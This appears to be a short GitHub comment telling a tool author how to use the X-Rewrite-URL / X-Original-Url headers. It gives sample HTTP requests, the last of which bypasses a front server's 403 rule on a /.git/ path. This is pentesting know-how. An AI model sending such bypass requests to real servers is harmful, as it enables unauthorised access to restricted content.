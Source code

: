 # X-Original-Url / X-Rewrite-Url 

Hey, I think you are using ```X-Original-Url / X-Rewrite-Url``` vector in a wrong way. These headers usually help to bypass front server rules, which are based on URI, but you don't change URI while using these headers.

First, normal request returns 403:

```
GET /.git/ HTTP/1.1
Host: example.com
```

This attempt to bypass will return 403 too, because URI hasn't changed and the rule still applies:

```
GET /.git/ HTTP/1.1
Host: example.com
X-Rewrite-URL: /.git/
```

This one should bypass the restriction:

```
GET / HTTP/1.1
Host: example.com
X-Rewrite-URL: /.git/
```
